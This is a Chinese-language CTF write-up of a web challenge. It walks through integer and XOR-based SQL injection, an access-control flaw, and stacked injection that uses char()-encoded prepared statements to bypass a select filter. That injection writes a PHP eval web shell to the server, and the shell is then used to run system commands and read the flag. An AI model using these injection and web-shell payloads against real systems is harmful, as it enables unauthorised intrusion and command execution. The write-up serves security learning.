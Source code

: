 ```yaml
---
Author: Coder-LYQ
Date: 2020-12-19

---
```


##  思路

1. 打开网页显示如下，有登录和注册框。注册账号登录后，有用户信息和编辑头像两个选项。

<img src="images/image-20210113193148596.png" alt="image-20210113193148596" width="50%;" />



<img src="images/image-20210113193336886.png" alt="image-20210113193336886" width="50%;" />

2. 点击用户信息，url中有id=2，这种情况很有可能存在sql注入，而且很可能是整型注入。

   <img src="images/image-20210113193445199.png" alt="image-20210113193445199" width="50%;" />

   修改id=2^1^1，可以正常显示；id=2^1，页面上无数据。说明存在整型注入。

   这里输入id=1,可以显示admin的信息，说明还存在越权漏洞。

   输入id=2-1和id=1显示结果一致。

3. 点击编辑头像，可以选择文件上传。说明可能存在文件上传漏洞。

   <img src="images/image-20210113194130354.png" alt="image-20210113194130354" width="50%;" />

   这里只能上传.jpg|.jpeg|.png|.gif类型的文件，而且是前端检测。

   使用bp拦截后，修改文件后缀再上传，仍然显示上传的jpg后缀文件。而且这里不管上传什么文件，都是下面这个文件名。

   `文件上传成功，保存于：../favicon/098f6bcd4621d373cade4e832627b4f6.jpg Mysql error!`

4. 继续考虑sql漏洞。

   利用异或注入时，按照常规思路，测试`id=2^1^(ascii(substr(database(),1,1))>0)`
   
   但页面上无任何内容显示，如下：
   
   <img src="images/image-20210113200537419.png" alt="image-20210113200537419" width="50%;" />
   
   测试`id=2^1^(if(ascii(mid(user(),1,1))>0,1,0))`,页面正常显示。
   
   <img src="images/image-20210113200651400.png" alt="image-20210113200651400" width="50%;" />
   
   说明这里会过滤一些关键字。（如何fuzz发现其他被过滤的关键字）
   
5. 堆叠注入。会过滤掉select。--》使用sql预处理

   格式：

   ```sql
   set @sql=concat();
   prepare s1 from @sql;
   execute s1;
   ```

   **新思路：**利用select into outfile  将一句话木马写入文件。

   `select '<?php eval($_POST[_]);?>' into outfile '/var/www/html/favicon/shell.php';`

   将上面的sql转成char（避免select被过滤）。

​		`?id=2;set @sql=char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,95,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,115,104,101,108,108,46,112,104,112,39,59);prepare query from @sql;execute query;`

6. 访问上传的shell.php，并post请求，利用system()命令获取信息。如下，flag应该存在WelL_Th1s_14_fl4g中。

<img src="images/image-20210113201630356.png" alt="image-20210113201630356" width="60%;" />

7. 获取flag。

   <img src="images/image-20210113201831749.png" alt="image-20210113201831749" width="60%;" />

## 总结

- 本题利用堆叠注入，且select被过滤，可以使用sql的预处理语句。
- select *** into outfile  ‘(文件路径)’  将一句话写入文件
- 将字符串转换成对应ascii码，再利用char()函数--》绕过select过滤。
- 该题与**[强网杯 2019]随便注**有类似之处